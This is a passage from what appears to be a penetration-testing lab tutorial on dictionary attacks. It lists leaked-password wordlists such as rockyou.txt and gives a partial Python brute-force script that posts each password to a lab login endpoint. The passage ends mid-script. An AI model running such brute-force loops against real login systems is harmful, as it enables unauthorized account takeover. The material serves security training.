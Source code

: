 By deploying this targeted wordlist in a dictionary attack, the attacker significantly elevates their likelihood of successfully cracking employee passwords compared to a purely random brute-force endeavor.

## Building and Utilizing Wordlists

Wordlists can be obtained from various sources, including:

- `Publicly Available Lists`: The internet hosts a plethora of freely accessible wordlists, encompassing collections of commonly used passwords, leaked credentials from data breaches, and other potentially valuable data. Repositories like [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Passwords) offer various wordlists catering to various attack scenarios.
- `Custom-Built Lists`: Penetration testers can craft their wordlists by leveraging information gleaned during the reconnaissance phase. This might include details about the target's interests, hobbies, personal information, or any other data for password creation.
- `Specialized Lists`: Wordlists can be further refined to target specific industries, applications, or even individual companies. These specialized lists increase the likelihood of success by focusing on passwords that are more likely to be used within a particular context.
- `Pre-existing Lists`: Certain tools and frameworks come pre-packaged with commonly used wordlists. For instance, penetration testing distributions like ParrotSec often include wordlists like `rockyou.txt`, a massive collection of leaked passwords, readily available for use.

Here is a table of some of the more useful wordlists for login brute-forcing:

|Wordlist|Description|Typical Use|Source|
|---|---|---|---|
|`rockyou.txt`|A popular password wordlist containing millions of passwords leaked from the RockYou breach.|Commonly used for password brute force attacks.|[RockYou breach dataset](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt)|
|`top-usernames-shortlist.txt`|A concise list of the most common usernames.|Suitable for quick brute force username attempts.|[SecLists](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt)|
|`xato-net-10-million-usernames.txt`|A more extensive list of 10 million usernames.|Used for thorough username brute forcing.|[SecLists](https://github.com/danielmiessler/SecLists/blob/master/Usernames/xato-net-10-million-usernames.txt)|
|`2023-200_most_used_passwords.txt`|A list of the 200 most commonly used passwords as of 2023.|Effective for targeting commonly reused passwords.|[SecLists](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt)|
|`Default-Credentials/default-passwords.txt`|A list of default usernames and passwords commonly used in routers, software, and other devices.|Ideal for trying default credentials.|[SecLists](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.txt)|

## Throwing a dictionary at the problem

**To follow along, start the target system via the question section at the bottom of the page.**

The instance application creates a route (`/dictionary`) that handles POST requests. It expects a `password` parameter in the request's form data. Upon receiving a request, it compares the submitted password against the expected value. If there's a match, it responds with a JSON object containing a success message and the flag. Otherwise, it returns an error message with a 401 status code (Unauthorized).

Copy and paste this Python script below as `dictionary-solver.py` onto your machine. You only need to modify the IP and port variables to match your target system information.

```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
```